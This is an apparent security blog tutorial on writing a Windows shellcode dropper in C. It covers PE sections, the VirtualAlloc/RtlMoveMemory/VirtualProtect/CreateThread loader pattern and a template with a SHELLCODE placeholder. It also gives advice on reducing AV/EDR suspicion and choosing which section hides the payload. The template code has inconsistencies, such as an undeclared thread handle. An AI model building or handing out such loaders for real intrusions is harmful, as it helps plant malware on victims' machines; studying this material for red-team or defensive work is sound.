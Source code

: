 ```yaml
---
title: Creating a Dropper in C
date: 2023-02-19 12:00:00 -500
categories: [blog]
tags: [code_execution]     #   TAG should always be lowercase

---
```


In this post we will take a very high level approach to creating a dropper for Windows. The structure of the dropper can take the form of 3 templates, each using a different structure of the portable executable to execute your shellcode. A dropper is just an application/binary/PE that delivers and executes your payload/Shellcode on the target system.

# What is a Portable Executable (PE)

a PE is a Way of structuring a file on disk so that the Windows loader recognizes the file as executable code and loads it into memory. If you want to have a detailed look at the structure of a PE, [here](https://github.com/corkami/pics/blob/master/binary/pe101/pe101.png) you go. The two main structures we will be looking at will be Headers and Sections.

Headers is just metadata about the PE. The below image shows the information contained in the headers for notepad.exe.

![headers](/assets/img/Headers.jpg)

Sections actually contain the executable code for a PE. The below image shows the sections contained in notepad.exe. These sections will become important later on when choosing where to store your payload.

![sections](/assets/img/PEBear.png)

# What is the difference between an EXE and a DLL

Two of the main PEs offensive operators can/will make use of is .exe(s) and .dll(s). The main difference between the two is that an EXE is a self-contained structure and completely independant in memory. The EXE will create a new process in windows and can interact with other processes, load different libraries and use all the different Win32/NT APIs. a DLL on the other hand is just a library that is called by an already in-memory process and usually needs a function inside the library that is called by the process.

# Sections for use in offensive tradecraft

The 3 sections that we can make use of for our payload/shellcode are the .data (Data), .text (Text) and .rsrc (Resources) sections. Each section that you choose for your payload will require a different layout in our C program. We will discuss the differences, but let's create the template for our first dropper program and then look at the distinguising features of our program and it's corresponding section. For any shellcode execution, there needs to be 4 essential functions within your program (There are different ways of doing this within the offensive community, but that is a post/posts for another day). 

Firstly, we want to reserve space in memory for our code and that can be accomplished by using the ```VirtualAlloc``` API. We allocate the memory space and also tell Windows what protections to apply (Read and Write) to the memory space ```flProtect``` (very important for detection considerations).

```c#
VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect)
```
Secondly, we want to copy our payload (assigned to a variable in our template) into the newly reserved memory space with the ```RtlMoveMemory``` API.

```c#
RtlMoveMemory(VOID *Destination, VOID *Source, SIZE_T Length);
```

Thirdly, we change the protection on the assigned memory region to make it executable (Read, Write, Execute) by using the ```VirtualProtect``` API. Changing the memory protection after assignment is slightly less suspicious for AV/EDR tools.

```c#
VirtualProtect(LPVOID lpAddress, SIZE_T dwSize, DWORD flNewProtect, PDWORD lpflOldProtect);
```

Lastly we make use of the ```CreateThread``` API to execute our code in a new thread within the process.

Our template for our dropper should now look like this:

```c#
unsigned char payload[] = {SHELLCODE};
unsigned int payload_length = SHELLCODE_LENGTH;
```

```c#
int main(void) {

// Reserve space in memory for our payload
me_reserve = VirtualAlloc(0, payload_length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

// Move the payload to the newly reserved space.
RtlMoveMemory(me_reserve, payload, payload_length);
	
// Change the memory protection to add execute permissions
mem_protect = VirtualProtect(me_reserve, payload_length, PAGE_EXECUTE_READ, &oldprotect);

// run the payload
if ( mem_protect != 0 ) {
	exec = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) me_reserve, 0, 0, 0);
	WaitForSingleObject(th, -1);
}

return 0;
}

```

The differences in the code comes in w.r.t to which section you would like to use for your payload.

If you want to use the ```.text``` section, you need to assign your payload as a local variable. So within the main function of the application.
If you want to use the ```.data``` section, you need to assign your payload as a global variable. So outside of the main function of the application.

The use of the ```.rsrc``` section is slightly more complex:

<ol>
  <li>Store your payload in a resources file on disk - payload.rc</li>
  <li>You need an additional include in the application "include resources.h"</li>
  <li>The payload needs to be extracted from a file using the FindResource, LoadResource and LockResource APIs before continuing with the above template as normal</li>
  <li>You will need to use the [Windows Resource Compiler](https://learn.microsoft.com/en-us/windows/win32/menurc/using-rc-the-rc-command-line-) to create an object file from your payload resources file</li>
</ol>

